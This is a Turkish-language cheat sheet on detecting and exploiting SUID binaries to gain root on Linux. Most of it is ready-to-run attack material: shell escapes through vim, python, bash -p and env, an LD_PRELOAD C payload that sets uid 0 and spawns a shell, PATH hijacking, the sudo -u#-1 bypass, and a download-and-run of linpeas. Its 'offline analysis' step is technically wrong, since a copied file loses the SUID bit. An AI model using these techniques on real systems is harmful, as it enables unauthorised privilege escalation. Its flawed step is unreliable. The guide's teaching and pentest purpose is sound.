 # SUID Zafiyetlerinin Tespit ve Sömürülmesi

Bu rehberde, SUID (Set Owner User ID) bayrağına sahip dosyaların tespit edilmesi, sömürülmesi ve olası zafiyetlerin nasıl değerlendirileceği en ince detayına kadar anlatılmaktadır. Rehber, araçlar, komutlar, yöntemler ve özel ipuçları içermektedir.

---

## SUID Nedir?

SUID, bir dosya üzerinde `setuid` bitinin etkin olduğu anlamına gelir. Bu bit, dosyanın çalıştırıldığı kullanıcı yerine dosyanın sahibinin yetkileriyle çalışmasını sağlar. SUID, yanlış yapılandırıldığında veya güvenliği zayıf uygulamalarla kullanıldığında bir saldırı yüzeyi oluşturabilir.

---

## SUID Dosyalarının Tespiti

### Tespit Komutları

#### Yalnızca SUID Bayrağına Sahip Dosyaları Bulmak
```bash
find / -perm -u=s -type f 2>/dev/null
```

#### Belirli Kullanıcılara Ait SUID Dosyalarını Bulmak
```bash
find / -user <kullanıcı_adı> -perm -4000 -type f 2>/dev/null
```

#### Hedef Dizinde SUID Dosyalarını Aramak
```bash
find <dizin> -perm -u=s -type f 2>/dev/null
```

#### SUID Dosyalarını Listeleyip Ayrıntılı Bilgi Almak
```bash
ls -l $(find / -perm -u=s -type f 2>/dev/null)
```

---

## SUID Dosyalarının Analizi

### Dosya Sahibi ve Grup Bilgisi
```bash
ls -l <dosya_adı>
```

### Dosya Tipini Belirleme
```bash
file <dosya_adı>
```

### Dosyada Statik Analiz
```bash
strings <dosya_adı>
```

### Bağımlılık Analizi
```bash
ldd <dosya_adı>
```

---

## SUID Dosyalarının Sömürülmesi

### Genel Adımlar
1. **SUID Dosyasının Yetkisini İnceleyin:** Dosyanın hangi kullanıcının yetkisiyle çalıştığını belirleyin.
2. **SUID Dosyasını Çalıştırın:** Dosyanın beklenmedik bir davranış sergileyip sergilemediğini gözlemleyin.
3. **İstismar Edilebilirlik Araştırması Yapın:** Dosyanın güvenlik zafiyetlerini araştırın.

---

### Sömürü Teknikleri

#### 1. Shell Elde Etme

Belirli dosyalar, shell elde etmek için doğrudan kullanılabilir. Örneğin:

##### `vim` ile Root Shell
```bash
vim -c '!sh'
```

##### `python` ile Shell
```bash
python -c 'import os; os.system("/bin/sh")'
```

#### 2. Çevrimdışı Analiz ile Exploit
SUID dosyasını kopyalayarak analiz etmek:
```bash
cp <suid_dosya> /tmp/
chmod +x /tmp/<suid_dosya>
./<suid_dosya>
```

#### 3. Ortam Değişkenlerinden Yararlanma
SUID dosyası ortam değişkenlerine bağımlıysa, manipüle edilerek exploit edilebilir. Örneğin:

##### `LD_PRELOAD` Yöntemi
```bash
cat > /tmp/exploit.c << EOF
#include <stdio.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0); setuid(0);
    system("/bin/sh");
}
EOF

gcc -fPIC -shared -o /tmp/exploit.so /tmp/exploit.c -nostartfiles
LD_PRELOAD=/tmp/exploit.so <suid_dosya>
```

#### 4. Hardcoded Komutlardan Yararlanma
SUID dosyasında hardcoded bir komut varsa, PATH değişkeni değiştirilerek exploit edilebilir:
```bash
export PATH=/tmp:$PATH
echo "/bin/sh" > /tmp/ls
chmod +x /tmp/ls
<suid_dosya>
```

---

## Faydalı Araçlar

### `GTFOBins`
SUID exploitlerinde sıklıkla başvurulan bir araçtır.
- [GTFOBins Websitesi](https://gtfobins.github.io/)

### `linPEAS`
Linux makinelerde yetki yükseltme zafiyetlerini tespit etmek için kullanılır.
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

---

## İpuçları ve Yöntemler

1. **Zayıf Kod Kontrolü:** SUID dosyasındaki kod açıklarını inceleyin.
2. **Yetki Zinciri Analizi:** Dosyanın zincirleme olarak başka zafiyetlere yol açıp açmadığını araştırın.
3. **Deneme Yanılma:** Dosyayı farklı parametrelerle çalıştırarak beklenmedik davranışları gözlemleyin.
4. **Dokümantasyon ve Bloglar:** İlgili uygulamalarla alakalı blog yazılarını ve dokümantasyonları okuyun.

---

## Sık Karşılaşılan SUID Dosyaları ve Exploit Örnekleri

### `/bin/bash`
```bash
/bin/bash -p
```

### `/usr/bin/sudo`
```bash
sudo -u#-1 /bin/bash
```

### `/usr/bin/env`
```bash
/usr/bin/env /bin/sh
```

---

## Notlar
- SUID zafiyetlerinin istismarı etik kurallara uygun şekilde yapılmalıdır.
- Test ortamlarında uygulamalar yapılmalıdır.

---

Bu rehber düzenli olarak güncellenecektir. Öneriler ve geri bildirimler için iletişime geçebilirsiniz.
